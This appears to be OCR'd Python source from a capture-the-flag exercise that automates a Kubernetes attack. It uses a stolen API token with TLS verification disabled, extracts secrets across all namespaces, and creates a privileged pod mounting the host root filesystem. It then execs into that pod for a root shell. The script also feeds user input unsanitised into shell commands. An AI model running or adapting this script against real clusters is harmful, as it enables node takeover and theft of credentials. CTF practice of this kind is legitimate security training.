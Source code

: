 ```py
def get_res():
    command = f"kubectl --server {args.url}:{args.port} --token {args.token} --insecure-skip-tls-verify api-resources --namespaced=true "
    os.system(command)

def get_name(resource):
    command = f"kubectl --server {args.url}:{args.port} --token {args.token} --insecure-skip-tls-verify get {resource} --all-namespaces"
    os.system(command)

def ext_name(resource, name, namespace):
    command = f"kubectl --server {args.url}:{args.port} --token {args.token} --insecure-skip-tls-verify get {resource} {name} -n {namespace} -o yaml"
    os.system(command)

def createpod():
    print(Fore.CYAN + "Creating pod.yaml...")
    os.system("""echo 'apiVersion: v1
kind: Pod
metadata:
  name: pod
  labels:
    app: pod
spec:
  containers:
  - name: pod
    image: gitea/gitea:1.5.1
    imagePullPolicy: IfNotPresent
    volumeMounts:
    - name: hostvolume
      mountPath: /pod
    ports:
    - containerPort: 80
    securityContext:
     privileged: true
  volumes:
  - name: hostvolume
    hostPath:
      path: /' > pod.yaml
        """)
    command = f"kubectl --server {args.url}:{args.port} --token {args.token} --insecure-skip-tls-verify create -f pod.yaml"
    os.system(command)

def spawnshell():
    print(Fore.CYAN + "-" * 10 + "Spawning a Root Shell :D" + "-" * 10)
    command = f"kubectl --server {args.url}:{args.port} --token {args.token} --insecure-skip-tls-verify exec --tty --stdin pod '/bin/bash'"
    os.system(command)

print(Fore.CYAN + "-" * 10 + "Part 1: Getting Current Privileges" + "-" * 10)
get_auth()

print(Fore.CYAN + "-" * 10 + "Part 2: Getting Supported Resources" + "-" * 10)
get_res()

print(Fore.CYAN + "-" * 10 + "Part 3: Getting Resource" + "-" * 10)
res = input("Which resources you want? E.g. secrets\n")
get_name(res)

print(Fore.CYAN + "-" * 10 + "Part 4: Extracting Name" + "-" * 10)
name = input("Which name you want? E.g. flag3\n")
namespace = input("Which namespace you want? E.g. kube-system\n")
```
